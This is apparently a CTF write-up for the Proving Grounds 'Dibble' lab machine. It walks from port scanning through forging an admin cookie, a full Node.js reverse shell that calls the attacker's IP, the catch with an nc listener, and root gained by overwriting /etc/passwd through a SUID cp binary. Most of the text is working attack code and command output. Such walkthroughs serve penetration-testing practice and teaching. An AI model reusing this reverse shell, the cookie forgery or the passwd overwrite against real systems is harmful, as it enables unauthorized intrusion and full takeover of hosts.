 ```yaml
---
title: "Proving grounds Practice: Dibble"
layout: post
date: 2024-02-08 02:00
categories: writeup
---
```


Proving grounds - Dibble CTF writeup.

# NMAP

```text
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))
3000/tcp  open  http    Node.js (Express middleware)
27017/tcp open  mongodb MongoDB 4.2.9
```

## 21/tcp    open  ftp     vsftpd 3.0.3
- [x] anonymous login 

## 80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))

File and Directory discovery
- http://192.168.213.110/
- http://192.168.213.110/web.config

## 3000/tcp  open  http    Node.js (Express middleware)

- Register a user.
- Change cookie from default to admin.
- Base64 encode the value and then url encode it.`userLevel=YWRtaW4%3D`
- Refresh the page.
- Add new event log.

#### node js reverse shell

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(80, "192.168.45.232", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

## Initial Foothold

```sh
naveenj@hackerspace:[09:37]~/proving_grounds/Dibble$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.110] 37530
id
uid=1000(benjamin) gid=1000(benjamin) groups=1000(benjamin)
ls -al
```

## Privilege Escalation

### Exfiltrated Information

```sh
 *   'database' => 'databasename',
 *   'username' => 'sqlusername',
 *   'password' => 'sqlpassword',
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
```

## SUID

```sh
-rwsr-xr-x. 1 root root 156K Apr 23  2020 /usr/bin/cp
```

### SUID Exploitation

- Read /etc/passwd and paste the contents in a file in the local machine.
- Add new sudo user entry to the file.
- Download the updated file to the attacking machine.
- Use `cp` to copy the updated file content to `/etc/passwd`.
- Switch to the new user which we created using the password.

```sh
[benjamin@dibble tmp]$ cp passwd /etc/passwd
cp passwd /etc/passwd
[benjamin@dibble tmp]$ su hacker
su hacker
Password: mypass

[root@dibble tmp]# cd /root
```

**Root Obtained**

### Reference

- https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).